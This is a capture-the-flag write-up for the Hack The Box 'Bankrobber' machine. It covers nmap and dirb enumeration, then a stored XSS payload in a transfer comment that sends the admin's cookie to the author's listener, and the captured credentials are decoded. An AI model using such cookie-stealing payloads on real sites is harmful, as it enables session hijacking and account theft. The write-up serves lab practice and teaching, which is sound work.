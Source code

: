 ```yaml
---
permalink: /posts/HTB/Bankrobber
layout: post
author: Vlad
title:  "Bankrobber "
tags: HTB Windows
---
```

# Bankrobber - 10.10.10.154
![InfoCard](/assets/HTB/Bankrobber/InfoCard.jpg)

## Enumeration

For an initial scan I used the following nmap command 
```
nmap -sV -sT -sC -p- -o nmapinitial -T4 10.10.10.154
```
The nmap scan finds the following opened ports 80, 443, 445, and 3306.
Port 3306 appears to be filtering by IP.
![nmapinitial](/assets/HTB/Bankrobber/nmapinitial.jpg)

enum4linux didn't return anything that i could use further.

## Website

At a first glance, it looks like the site is a cryptocurrency exchange.
![website1](/assets/HTB/Bankrobber/website1.jpg)

I started dirb with its default wordlist to see if it can find anything that might be of interest for later use.
```
dirb http://10.10.10.154/ -A -i -X html,,txt,xml,php -z 10 -o dirbout.txt
```

While dirb was running, i continued poking around the website to see what I can find.

### Testing site registration

Accessing the Register page, I'm presented with a registration form which I use to create an account.
![registeronsite](/assets/HTB/Bankrobber/registeronsite.jpg)

And, once logged in with the newly created user account, I can access the E-coin transfer form.
I initiate a transfer to see what happens.
![transfercointest](/assets/HTB/Bankrobber/transfercointest.jpg)

Judging by this message it looks like the site's admin or, more likely, a job running as the site's admin is 
periodically checking and approving transfers. This indicates that a client-side attack could be used to steal the admin's cookie.

##Initial foothold
I start an ncat listener on port 80 and create an E-coin transfer with the following payload added in the comment section
```
<img src=x onerror=this.src="http://10.10.14.51/?c="%2bdocument.cookie>
```
![transferpayload](/assets/HTB/Bankrobber/transferpayload.jpg)

This is how the request looks in Burp.
![burp_](/assets/HTB/Bankrobber/burp_.jpg)

In Burp i can see that my cookie contains my user ID, as well as my BASE64 encoded username and password.
The request also references my user ID in fromID.
The lsitener I've started earlier catches the admin cookie within a couple of minutes.
![admcookie](/assets/HTB/Bankrobber/admcookie.jpg)

Decoding from BASE64 using [base64decode.org](https://www.base64decode.org/) reveales the following admin credentials:
- YWRtaW4% = admin
- SG9wZWxlc3Nyb21hbnRpYw%3D%3D = Hopelessromantic

Logging in as admin leads me to this page
